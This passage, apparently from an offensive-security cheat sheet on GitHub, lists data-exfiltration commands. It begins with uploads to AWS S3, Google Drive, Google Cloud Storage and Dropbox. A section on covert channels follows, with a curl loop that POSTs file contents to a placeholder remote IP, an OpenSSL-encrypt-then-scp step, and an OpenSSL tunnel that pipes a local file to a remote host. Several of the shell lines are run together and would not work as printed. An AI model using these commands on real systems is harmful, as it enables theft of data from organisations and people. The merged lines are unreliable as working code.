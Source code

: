 #### AWS S3
- **Upload file to AWS S3 (requires AWS CLI configured):**
	```bash
	aws s3 cp /path/to/local_file s3://bucket_name/remote_file.txt
	```
- **Sync a Local Directory to an S3 Bucket:**
	```bash
	aws s3 sync /path/to/local_directory s3://bucket_name/
	```

#### Google Drive
- **Upload Files to Google Drive Using `gdrive`:**
	```bash
	gdrive upload /path/to/local_file
	```
- **Upload a Directory to Google Drive:**
	```bash
	gdrive upload --recursive /path/to/local_directory
	```
- **Upload Data to a Google Drive Shared Link:**
	```bash
	gdrive upload --share /path/to/local_file
	```
- **Upload file to Google Cloud Storage (requires gsutil configured):**
	```bash
	gsutil cp /path/to/file gs://<bucket_name>/file_name
	```

#### Dropbox (using API)
- **Upload file to Dropbox using API:**
	```bash
	curl -X POST https://content.dropboxapi.com/2/files/upload \
	--header "Authorization: Bearer <access_token>" \
	--header "Dropbox-API-Arg: {\"path\": \"/file_name\"}" \
	--header "Content-Type: application/octet-stream" \
	--data-binary @/path/to/file  
	```

# Data Exfiltration via Custom and Covert Channels

#### Exfiltration via Custom Scripts
- **Custom Script for HTTP Exfiltration:**
	```bash
	echo "Exfiltrating data" > /tmp/data.txt while read -r line; do     curl -X POST -d "data=$line" http://<remote_ip>/upload done < /tmp/data.txt
	```

#### Exfiltration via Custom Encrypted Channel
- **Encrypt Data Before Exfiltration Using OpenSSL:**
	```bash
	openssl enc -aes-256-cbc -salt -in /path/to/local_file -out /path/to/encrypted_file scp /path/to/encrypted_file <username>@<remote_ip>:/path/to/remote_directory
	```
- **Create a Custom Encrypted Tunnel Using OpenSSL:**
	```bash
	openssl s_server -accept 443 -cert mycert.pem -key mykey.pem -quiet openssl s_client -connect <remote_ip>:443 -quiet < /path/to/local_file
	```
